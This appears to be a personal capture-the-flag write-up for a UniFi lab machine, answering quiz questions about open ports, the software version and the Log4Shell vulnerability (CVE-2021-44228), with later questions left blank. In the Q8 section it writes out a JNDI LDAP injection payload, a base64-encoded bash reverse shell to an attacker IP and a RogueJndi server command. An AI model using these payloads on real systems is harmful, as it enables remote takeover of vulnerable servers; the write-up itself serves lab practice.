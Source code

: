 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googleing aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389
![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error
![](../../Img/Pasted%20image%2020250424160606.png)
but also a connection
![](../../Img/Pasted%20image%2020250424160627.png)
With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"
![](../../Img/Pasted%20image%2020250424162840.png)
in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
Q9: What is the default database name for UniFi applications?

A: 

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: 

Q11: What is the function we use to update users within the database in MongoDB?

A: 

Q12: What is the password for the root user?

A: 

Q13: Submit user flag

A: 

Q14: Submit root flag

A: 
